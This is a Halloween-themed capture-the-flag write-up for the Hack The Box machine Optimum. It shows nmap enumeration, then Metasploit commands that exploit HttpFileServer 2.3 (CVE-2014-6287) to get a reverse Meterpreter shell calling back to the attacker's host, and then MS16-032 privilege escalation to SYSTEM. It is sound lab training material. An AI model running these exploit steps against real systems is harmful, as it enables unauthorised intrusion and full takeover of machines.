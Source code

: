 # HTB_Optimum
My writeup for the HTB machine Optimum!


🎃 HTB Optimum - Spooky Edition 🦇
A Halloween-themed walkthrough for Hack The Box's Optimum machine

Spooky Hacking

👻 Introduction
Welcome, brave hacker, to the Haunted Server of Optimum! This eerie Windows machine hides dark secrets—a vulnerable HttpFileServer (HFS) waiting to unleash its demons. Your mission? Exploit it, escalate privileges, and uncover the ghostly flags hidden in its shadowy depths.

Difficulty: 👻👻👻👻👻 (Easy)
Operating System: Windows (Server 2012 R2)
Author: Lantern
Tools Used: nmap, Metasploit, Exploit-DB

🕵️ Enumeration: Unmasking the Phantom Service
1. Port Scanning with nmap
We start by probing the haunted server with nmap:

```bash
nmap -sV -sC -oA nmap/optimum_spooky 10.10.10.8
```

Findings:

![1 nmap](https://github.com/user-attachments/assets/1a1006f4-680f-4c9f-8035-d2b070f2eb45)


Port 80 (HTTP): A cursed HttpFileServer 2.3 lurks here.

CVE-2014-6287: This version has a Remote Code Execution (RCE) vulnerability—perfect for summoning a reverse shell!


![2 HTTP server](https://github.com/user-attachments/assets/2b55130a-4350-48b9-bcb4-a467927920d7)

💀 Exploitation: Raising the Dead (Shell)
2. Summoning a Meterpreter Shell
We invoke Metasploit to exploit the haunted HFS:

```bash
msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.10.10.8
set LHOST <YOUR_IP>
exploit
```

![3 initial exploit](https://github.com/user-attachments/assets/b89cc0f6-cee8-47c0-a8e8-129963d12660)


If successful:

A Meterpreter session rises from the digital grave!

Check your access:

```bash
meterpreter > getuid
```

Server username: OPTIMUM\kostas (The Lost User)
3. Collecting the First Soul (User Flag)
Navigate to Kostas’ forsaken desktop and claim the user flag:

```bash
meterpreter > shell
type C:\Users\kostas\Desktop\user.txt
```

👑 Privilege Escalation: Becoming the Lich King (SYSTEM)
4. Checking the Haunted System
Before ascending, we must know our enemy:

```bash
meterpreter > sysinfo
```

# Output: Windows 2012 R2 (6.3 Build 9600) - A cursed relic!
5. Exploiting the Forgotten Curse (MS16-032)
We exploit a secondary logon handle vulnerability to become SYSTEM:

```bash
background
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 1
set LHOST <YOUR_IP>
exploit
```

![4 upgrade privelages](https://github.com/user-attachments/assets/1a53ba83-8020-4ec9-8999-0cc44411add0)


Success? You are now nt authority\system—the Overlord of Optimum!

6. Claiming the Final Soul (Root Flag)
Enter the Administrator’s lair and seize the root flag:

```bash
shell
type C:\Users\Administrator\Desktop\root.txt
```

![5 root flag](https://github.com/user-attachments/assets/ee591a23-ebcf-4140-b6e0-1bbb7c63073f)


🎃 Conclusion: The Curse is Lifted!
You’ve conquered the haunted Optimum machine! Here’s what we learned:
✔ Exploiting outdated services can open spectral gateways.
✔ Windows privilege escalation is like stealing a lich’s phylactery.
✔ Always check for known CVEs—they’re the ghosts of past mistakes.

🔮 Bonus: Spooky Tips for Future Haunts
Alternative Exploits: If MS16-032 fails, try bypassuac_eventvwr.

Manual Checks:

```bash
whoami /priv           # Check for weak permissions
systeminfo             # Find missing patches
```

🕯️ Final Words
Happy hacking, and beware the ghosts of unpatched systems! 🎃

👻 Want more spooky walkthroughs?
⭐ Star this repo & follow for hauntingly good content!

